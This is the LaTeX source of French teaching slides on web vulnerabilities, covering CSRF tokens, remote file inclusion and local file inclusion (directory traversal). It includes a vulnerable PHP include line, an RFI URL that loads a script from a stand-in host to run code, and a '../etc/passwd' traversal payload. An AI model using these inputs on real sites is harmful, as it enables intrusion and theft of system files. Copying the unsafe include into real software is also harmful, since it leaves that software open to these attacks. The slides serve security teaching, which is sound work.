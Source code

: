 \documentclass{beamer}
\begin{document}
\begin{frame}{Comment la sécuriser ?}
	\begin{itemize}
		\item Ajouter un token nécessaire dans chaque formulaire sur le site que l'on veut sécuriser
		\item <input type="hidden" name="CSRFToken" value="Token chiffré" >
	\end{itemize}
\end{frame}

\section{Faille RFI/LFI}

\begin{frame}{RFI (Remote File Inclusion)}
	\begin{itemize}
		\item Principe : Inclure un site dans le site
		\item Passe par l'inclusion de page avec des paramètres
		\item Permet d'envoyer des données personalisés
		\item Permet également d'executer du code PHP sur la machine distante
		\item http://monsite.org/index.php?view=http://hacking.org/hack.php
	\end{itemize}
\end{frame}

\begin{frame}{LFI : Directory traversal}
	\begin{itemize}
		\item Principe : Accéder à un dossier dont nous ne sommes pas autorisé
		\item Par exemple : \\
		<?php include ('/home/users/web/views/' . \$\_GET['view']); ?>
		\item On accède donc à l'accueil par : 
		\item http://monsite.org/index.php?view=accueil.php
	\end{itemize}
\end{frame}

\begin{frame}{Exploiter cela}
	\begin{itemize}
		\item Envoyer une vue naviguant dans les dossiers
		\item Par exemple : \\
		'../../../../../../../../../etc/passwd' et accéder au fichier de password de la machine
		\item On peut ainsi accéder au fichier que l'on veut sur la machine !
	\end{itemize}
\end{frame}
\end{document}
